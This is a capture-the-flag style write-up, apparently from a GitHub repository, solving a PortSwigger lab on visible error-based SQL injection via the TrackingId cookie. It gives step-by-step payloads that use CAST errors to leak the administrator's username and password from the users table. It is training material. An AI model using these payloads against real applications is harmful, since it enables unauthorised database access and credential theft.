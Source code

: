 # Visible error-based SQL injection
# [lab](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

This lab contains a SQL injection vulnerability.
The application uses a tracking cookie for analytics,
and performs a SQL query containing the value of the submitted cookie.

### The target we will need to focus is TrackID 

End Goals :
* Exploit SQLi , Leak the username & password .
* Login as the administrator user .
------------
Analysis :
1- test that parameters is vulnerable .
## Intercept
open the burp suite catch request and send it to repeater to test possible SQL injections .

```
TrackingId=MTHshxABbU9laks5'
```
 > 500 Internal Error

```
TrackingId=MTHshxABbU9laks5'-- 
```
 > 200 OK

" Confirm that no longer receive an error "

2 -  use SELECT , CAST the returned value to an `int` data type:

```
trackingId=MTHshxABbU9laks5' AND CAST ((SELECT 1) AS int)--
 ```

- error saying that an `AND` condition must be a boolean


3 - Modify the condition, you can simply add a comparison operator (`1=`):

```
TrackingId=MTHshxABbU9laks5' AND 1=CAST((SELECT 1) AS int)--
 ```

- '  valid query  '

## Try to output information from DB:
- " from error output "

4 - The lab give us the table ‘users’ we'll use it 

```
trackingId=MTHshxABbU9laks5' AND 1=CAST((SELECT username FROM users) AS int )--
 ```

### Error : Maximum number of characterso, lets delete the cookie value and see what happen
- new error : more than one row returned

5 - Since too many rows are returned, we can limit it to only 1 username . 

```
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
 ```

- The error message now shows us the username ‘administrator’

6 - now lets try it with password and see if he give us the pass also or not :)

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```
![image](https://github.com/Renat9s/sqli-labs/assets/126417250/d299dc5a-db14-4532-a703-a06a793c9e28)


- yes he did , Leaked the password also.
--------------------------------------------------------------------------
SOLVED THE LAB <3

